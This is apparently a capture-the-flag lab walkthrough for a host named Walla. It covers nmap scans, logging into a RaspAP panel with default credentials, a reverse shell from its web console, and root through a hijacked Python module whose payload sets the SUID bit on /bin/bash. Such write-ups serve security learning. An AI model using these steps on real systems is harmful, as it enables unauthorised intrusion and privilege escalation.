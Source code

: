 # Walla

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:22 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

Telnet is enabled, which is always great. Ran a detailed `nmap` scan too:

```
$ sudo nmap -p 22,23,25,53,422,8091,42042 -sC -sV -O --min-rate 3000 192.168.197.97
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:24 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
```

### Weak Creds --> Web Console

I took a look at port 8081 first, and found that it had a HTTP login:

<figure><img src="../../../.gitbook/assets/image (162) (4).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:secret` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (98) (7).png" alt=""><figcaption></figcaption></figure>

This is running RaspAP, which is a wireless router software. We can find the version by heading to 'About RaspAP':

<figure><img src="../../../.gitbook/assets/image (7) (10).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits for this:

```
$ searchsploit raspap       
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
----------------------------------------------------------- ---------------------------------
```

However, we don't actually need any exploits because within the 'System' tab, there's a Console present:

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

A reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (6) (15).png" alt=""><figcaption></figcaption></figure>

Grab the user flag from the home directory of `walter`.

## Privilege Escalation

### Sudo Privileges --> Module RCE

I ran a `linpeas.sh` scan to enumerate for me. Here's the interesting output:

```
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
    
[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d 
You have write privileges over /lib/systemd/system/raspapd.service
```

The `wifi_reset.py` file looks the easiest to exploit:

```
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

This is pretty easy to exploit. We can create a script `wificontroller.py` and place it within the `/home/walter` directory. Here's the contents of it:

```python
import os
os.system("chmod u+s /bin/bash")
```

Then, we can attempt to run the `wifi_reset.py` script and easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>
